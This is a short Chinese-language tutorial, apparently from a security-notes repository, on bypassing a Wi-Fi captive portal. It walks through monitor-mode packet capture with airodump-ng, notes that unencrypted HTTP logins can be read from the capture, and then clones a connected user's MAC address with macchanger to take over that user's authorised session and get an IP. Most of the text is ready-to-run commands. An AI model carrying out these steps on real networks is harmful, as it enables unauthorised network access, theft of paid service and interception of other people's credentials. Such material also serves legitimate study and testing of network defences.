 Captive Portal Invasion
===
🔙 [MENU README](../README.md)

```
Captive Portal 是指在可以正常用網路前,，先導到一個登入網頁，
登入後才可以正常上網，通常用在需要付費上網的地方
或是飯店提供免費但需帳號登入的 Wi-Fi。不過不限於 Wi-Fi 連線
```
```
前面連接http://192.168.10.1     可正常連接
但http://192.168.10.1/login.php 會Error 404
其他需要登入的內容會被封鎖
我們可以透過偽造MAC位址去access位授權的頁面

但僅限於用HTTP傳送未加密封包
會發生在設定錯的時候
就可以透過封包監聽去抓到未加密的帳密
也就是我們常在WiFi Scan中看到的
**其他人可能可以看到您透過此網路傳送的資訊**
```
 
# Capture Packet 蒐集 MAC 
```bash
# 開啟監聽
sudo airmon-ng start wlan0

# 新建資料夾
mkdir ~/wifi/
mkdir ~/wifi/scan
sudo airodump-ng wlan0mon -w ~/wifi/scan --manufacturer --wps --band bga --channel 6
# 大概抓個3分鐘
# 可以打開封包看看http會有未加密的帳號密碼
```
```bash
# target
wifi-guest F0:9F:C2:71:22:10
# 找有連到這基地台的人
# 我們需要將我們的MAC偽裝有連到這基地台的人 ex.B0:72:BF:44:B0:49
```
# 修改成偽造 MAC 位址連接
```bash
sudo systemctl stop network-manager
sudo ip link set wlan2 down
sudo macchanger -m b0:72:bf:44:b0:49 wlan2
sudo ip link set wlan2 up
```
重新連接wifi-guest
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
}
```
```bash
sudo wpa_supplicant -Dnl80211 -iwlan2 -c wpa_supplient.conf

# wpa_supplicant : 用於連接 WPA-PSK/WPA2-PSK 加密的 Wi-Fi 網絡的工具
# -D : 指定要使用的驅動程序類型
# -i : 指定要配置的無線網絡介面
# -c : 指定配置文件的路徑
#      配置文件包含要連接的無線網絡的詳細信息
#      如 SSID、密碼、加密類型等


# 出現 CTRL-EVENT-CONNECTED 代表成功連結WIFI


# Get IP
sudo dhclient wlan2 -v
```
```
拿著別人的MAC跟基地台要IP
http://192.168.10.1/login.php 可以跳過Captive Portal Invasion
```
![](../_src/Captive%20Portal%20Invasion%20-%20Wireshark.png)